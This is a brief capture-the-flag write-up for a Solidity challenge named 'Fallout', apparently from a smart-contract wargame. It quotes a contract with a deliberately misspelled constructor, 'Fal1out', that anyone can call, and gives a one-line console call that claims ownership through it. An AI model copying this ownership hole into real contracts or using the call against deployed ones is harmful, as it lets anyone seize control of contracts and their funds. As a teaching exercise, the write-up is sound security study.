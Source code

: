 # Fallout

It said that [`remix`](https://remix.ethereum.org/#optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.7+commit.e28d00a7.js) might help so I pasted the code in it.

While looking at the code we can see that a constructor is made but we can see its misspelled:

```js
contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

Now this sort of thing cannot exists now(they changed the way solidity now declares the constructors). Since the constructor is misspelled, we can call the function like any other public function.

## Solution

```js
contract.Fal1out({value: toWei("0.001", "ether"), from: player})
```